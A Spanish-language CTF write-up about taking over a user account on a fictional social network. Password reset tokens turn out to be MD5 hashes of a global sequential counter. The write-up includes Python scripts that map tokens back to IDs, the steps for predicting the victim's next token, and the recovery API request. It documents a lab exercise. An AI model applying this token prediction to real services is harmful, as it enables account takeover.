 # Desafío SnowStorm: Write-up "El Cambia Nombres de Juan Pérez"

## 0. Resumen del Desafío

* **Plataforma:** SnowStorm (Red Social Ficticia del CTF)
* **Objetivo:** Comprometer la cuenta del usuario "Juan Pérez", cambiar su nombre de perfil a "Soy un idiota" y, como resultado, obtener la flag del desafío.
* **Credenciales Proporcionadas:** Se nos otorgó acceso como el usuario `carlos.ruiz@hacklab.com`.

## 1. Vulnerabilidad Principal Identificada: Generación Débil y Predecible de Tokens de Reseteo de Contraseña

La vulnerabilidad crítica explotada residía en el mecanismo de generación de los tokens para el reseteo de contraseñas. Se descubrió que los tokens eran simplemente el hash **MD5 de un ID numérico incremental y global**, sin un "salt" criptográfico y sin incluir información del usuario (como el email) en el propio input del hash.

* **Fórmula del Token:** `Token = MD5(str(ID_NUMERICO_GLOBAL))`

Esto hacía que los tokens fueran predecibles si se podía estimar el valor actual del contador global.

## 2. Herramientas Utilizadas

* Un cliente HTTP para interactuar con la API de SnowStorm (ej. cURL, Postman, o las herramientas de desarrollador del navegador).
* Python para scripting, específicamente para:
    * Calcular hashes MD5.
    * Automatizar la búsqueda del `ID_NUMERICO` correspondiente a un token conocido.

## 3. Pasos de la Explotación

La explotación se basó en obtener un valor reciente del contador global y luego usar el siguiente valor para predecir el token del usuario objetivo.

### 3.1. Análisis Inicial y Confirmación de la Fórmula del Token

* **Observación Inicial:** Los tokens de reseteo eran cadenas hexadecimales de 32 caracteres (sugiriendo MD5).
* **Pruebas con Múltiples Tokens:** Se generaron múltiples tokens para una cuenta controlada (ej. `lautig@yopmail.com`). Se notó que los tokens eran diferentes para cada solicitud.
* **Análisis de Patrones con Script:** Para confirmar la hipótesis `Token = MD5(str(ID_NUMERICO))`, se utilizó un script en Python para analizar una lista de tokens conocidos (los 12 que se obtuvieron para `lautig@yopmail.com`). El script intentaba encontrar un `ID_NUMERICO` para cada token.

    **Script de Análisis de Lista de Tokens:**
    ```python
    import hashlib

    def calcular_md5(texto):
        """Calcula el hash MD5 de un texto y lo devuelve en hexadecimal."""
        return hashlib.md5(texto.encode('utf-8')).hexdigest()

    # Los 12 tokens que se analizaron (ejemplo)
    tokens_a_analizar = [
        "90e1357833654983612fb05e3ec9148c", # -> Encontró ID 1804
        "7ffd85d93a3e4de5c490d304ccd9f864", # -> Encontró ID 1805
        "d1e946f4e67db4b362ad23818a6fb78a", # -> Encontró ID 1806
        "6e79ed05baec2754e25b4eac73a332d2", # -> Encontró ID 1810
        "1f1baa5b8edac74eb4eaa329f14a0361", # -> Encontró ID 1807
        "5b6ba13f79129a74a3e819b78e36b922", # -> Encontró ID 1812
        "39027dfad5138c9ca0c474d71db915c3", # -> Encontró ID 1808
        "645098b086d2f9e1e0e939c27f9f2d6f", # -> Encontró ID 1809
        "faacbcd5bf1d018912c116bf2783e9a1", # -> Encontró ID 1816
        "09b15d48a1514d8209b192a8b8f34e48", # -> Encontró ID 1811
        "f542eae1949358e25d8bfeefe5b199f1", # -> Encontró ID 1813
        "f0bbac6fa079f1e00b2c14c1d3c6ccf0"  # -> Encontró ID 1815
    ]

    rango_ids_min = 0 
    rango_ids_max = 5000 # Ajustar según sea necesario

    print(f"--- Iniciando Análisis de Lista de Tokens con MD5(id_string) ---")
    print(f"Probando IDs desde {rango_ids_min} hasta {rango_ids_max} para cada token.\n")

    for i, token_actual_de_lista in enumerate(tokens_a_analizar):
        print(f"Analizando token #{i+1}: {token_actual_de_lista}")
        encontrado_para_este_token = False
        for id_valor_numerico in range(rango_ids_min, rango_ids_max + 1):
            id_actual_str = str(id_valor_numerico)
            texto_a_hashear = id_actual_str
            hash_generado = calcular_md5(texto_a_hashear)
            if hash_generado == token_actual_de_lista:
                print(f"  !!! ÉXITO para token {token_actual_de_lista} !!!")
                print(f"  ID encontrado: {id_actual_str}")
                print(f"  Input al MD5: '{texto_a_hashear}' (solo el ID)")
                print("-" * 30)
                encontrado_para_este_token = True
                break 
        if not encontrado_para_este_token:
            print(f"  No se encontró un ID para el token {token_actual_de_lista} en el rango.")
            print("-" * 30)
    print("\n--- Análisis de Lista de Tokens Completado ---")
    ```
* **Resultados del Script:** El script confirmó que cada uno de los 12 tokens era el MD5 de un ID numérico (ej. "1804", "1805", etc.). Esto validó la fórmula `Token = MD5(str(ID_NUMERICO))` y demostró que los IDs estaban en un rango cercano, sugiriendo un contador global.

### 3.2. Obtención del Valor Actual del Contador Global (Punto de Referencia)
1.  Se solicitó un reseteo de contraseña para una cuenta controlada por el atacante (llamémosla `atacante@yopmail.com`) usando `POST /api/forgot/`.
2.  Se obtuvo el token (`TOKEN_ATACANTE`) enviado a `atacante@yopmail.com`.
3.  Usando un script similar al anterior (o el de un solo token), se encontró el `ID_ATACANTE` tal que `MD5(str(ID_ATACANTE)) == TOKEN_ATACANTE`. Este `ID_ATACANTE` nos dio el valor más reciente conocido del contador global. *(Ejemplo: Si el ID encontrado fue `N`)*.

### 3.3. Predicción y Uso del Token para Juan Pérez
1.  **Inmediatamente después** de obtener `ID_ATACANTE`, se solicitó un reseteo de contraseña para el objetivo, `juan.perez@hacklab.com`, usando `POST /api/forgot/`.
    * Esto hizo que el servidor generara un token para Juan Pérez usando el siguiente ID disponible en la secuencia global. Se asumió que este sería `ID_JUAN = ID_ATACANTE + 1` (es decir, `N + 1`).
2.  Se calculó el token predicho para Juan: `TOKEN_JUAN_PREDICHO = MD5(str(ID_JUAN))`.
    * *(Tu comentario: "saque el hash me fije el numero, el siguiente email que puse fue el de juan y como se que es incremental el numero le sume uno al anterior y listo tenia el hash")*
3.  Se utilizó `TOKEN_JUAN_PREDICHO` para establecer una nueva contraseña para Juan Pérez mediante una solicitud `POST` a `/api/recovery/`:
    ```json
    {
      "token": "TOKEN_JUAN_PREDICHO_CALCULADO",
      "password": "NuevaPasswordParaJuan"
    }
    ```

### 3.4. Acceso y Consecución del Objetivo
1.  Se inició sesión como `juan.perez@hacklab.com` con la `NuevaPasswordParaJuan`.
2.  Se navegó a la página de perfil y se actualizó el nombre a "Soy un idiota" (enviando un `POST` a `/api/user/update/`).
3.  ¡Flag obtenida!

## 4. Script Útil (Python para generar MD5 de un ID numérico individual)

```python
import hashlib

def calcular_md5(id_como_cadena):
    """Calcula el hash MD5 de una cadena de texto (que representa un ID)."""
    return hashlib.md5(id_como_cadena.encode('utf-8')).hexdigest()

if __name__ == "__main__":
    id_numerico_str = input("Ingresa el ID numérico (como cadena) para generar su MD5: ")
    if id_numerico_str.lower() == 'salir':
        exit()
    hash_resultante = calcular_md5(id_numerico_str)
    print(f"El MD5 de la cadena '{id_numerico_str}' es: {hash_resultante}")
```
## 5. Impacto
La vulnerabilidad permite la toma de control de cualquier cuenta de usuario (Account Takeover) si se puede predecir el ID numérico que se usará para generar su token de reseteo.
